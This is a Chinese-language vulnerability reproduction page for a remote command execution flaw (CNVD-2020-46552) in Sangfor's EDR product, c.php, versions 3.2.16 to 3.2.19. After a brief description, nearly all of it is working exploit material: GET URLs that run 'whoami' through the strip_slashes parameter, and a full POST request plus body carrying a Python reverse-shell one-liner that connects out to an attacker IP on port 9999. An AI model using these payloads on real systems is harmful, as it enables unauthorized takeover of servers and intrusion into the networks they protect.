 # 深信服 EDR c.php 远程命令执行漏洞 CNVD-2020-46552

# 深信服 EDR c.php 远程命令执行漏洞 CNVD-2020-46552

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，可向目标服务器发送恶意构造的HTTP请求，从而获得目标服务器的权限，实现远程代码控制执行。

## 漏洞影响

```
EDR v3.2.16
EDR v3.2.17
EDR v3.2.19
```

## 漏洞复现

```plain
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&limit=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&host=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&path=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&row=whoami
```



![img](/images/202202091913721.png)



**反弹shell**



```plain
POST /tool/log/c.php HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 256

strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



向 **/tool/log/c.php**  POST以下数据即可



```plain
strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

